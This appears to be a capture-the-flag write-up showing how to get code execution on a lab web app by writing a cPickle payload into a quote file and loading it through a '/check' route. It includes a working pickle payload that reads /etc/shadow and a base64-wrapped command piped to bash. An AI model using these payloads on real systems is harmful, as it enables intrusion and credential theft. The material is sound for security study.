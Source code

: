 So I can see that when I submit a quote, it is saved in `/tmp/{id}.p`    
Another thing that I see is the `/check` route.    
Apparently it reads the content of the quote file and then it loads it into `cPickle` if it contains the string "p1".

### RCE Strategy

The strategy I am going to follow here is to try writing a serialized payload into the quote file and then executing it with `/check`.    
One thing to take into account is that the quote is not saved as I send it, it is saved with the name of the character appended to it:

```python
...
            else:
                # TODO - Pickle into dictionary instead, `check` is ready
                p_id = md5(char + quote).hexdigest()
                outfile = open("/tmp/" + p_id + ".p", "wb")
		outfile.write(char + quote)
		outfile.close()
	        success = True
...
```

Searching a bit about absuing `cPickle` I found a [post](https://penturalabs.wordpress.com/2011/03/17/python-cpickle-allows-for-arbitrary-code-execution/) where it is using a preserialized payload so I don't have to.    
So a serialized payload would look like this:

```python
exploit = "cos\nsystem\n(S'cat /etc/shadow | head -n 5'\ntR.'\ntR."
```

Now that we have the payload, we need to know the quote id, which is the md5 hash of the `character + quote_id`.

```python
quote_id = md5(("moe"+quote).encode()).hexdigest()
```

Now, the serialize payload will not work because the character is appended to the quote, but if the character is in capital letters, `cPickle` will ignore it.    
Knowing this we will have to send the character with capital letters.

```python
response = requests.post("http://10.10.10.70/submit",data={"character":"MOE","quote":quote})
...
quote_id = md5(("MOE"+quote).encode()).hexdigest()
```

Finally I will add `# p1` at the end of the command so it loads it into `cPickle`.

```
...
cmd = base64.b64encode(cmd.encode()).decode()
payload = f"cos\nsystem\n(S'echo {cmd} | base64 -d | bash # p1'\ntR.'\ntR."
...
```
